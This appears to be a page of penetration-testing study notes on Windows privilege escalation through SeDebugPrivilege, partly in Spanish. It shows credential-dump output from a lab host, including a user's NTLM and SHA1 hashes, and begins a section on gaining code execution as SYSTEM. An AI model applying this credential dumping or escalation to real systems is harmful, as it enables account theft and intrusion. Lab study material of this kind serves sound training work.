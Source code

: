```c
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 3/31/2021 3:00:57 PM
SID               : S-1-5-90-0-4
        msv :
        tspkg :
        wdigest :
         * Username : WINLPE-SRV01$
         * Domain   : WORKGROUP
         * Password : (null)
        kerberos :
        ssp :
        credman :

<SNIP> 

Authentication Id : 0 ; 23026942 (00000000:015f5cfe)
Session           : RemoteInteractive from 2
User Name         : jordan
Domain            : WINLPE-SRV01
Logon Server      : WINLPE-SRV01
Logon Time        : 3/31/2021 2:59:52 PM
SID               : S-1-5-21-3769161915-3336846931-3985975925-1000
        msv :
         [00000003] Primary
         * Username : jordan
         * Domain   : WINLPE-SRV01
         * NTLM     : cf3a5525ee9414229e66279623ed5c58
         * SHA1     : 3c7374127c9a60f9e5b28d3a343eb7ac972367b2
        tspkg :
        wdigest :
         * Username : jordan
         * Domain   : WINLPE-SRV01
         * Password : (null)
        kerberos :
         * Username : jordan
         * Domain   : WINLPE-SRV01
         * Password : (null)
        ssp :
        credman :

<SNIP>
```

- [SeDebugPrivilege](https://github.com/dollarboysushil/oscp-cpts-notes/blob/main/windows-privilege-escalation/user-privileges/sedebugprivilege.md)

### Remote Code Execution as SYSTEM

**Identifique un proceso a nivel de SISTEMA:**

Primero, necesitamos identificar un proceso que se esté ejecutando con privilegios **de SISTEMA** . Podemos hacerlo usando el `tasklist`comando en una sesión de PowerShell con privilegios elevados.
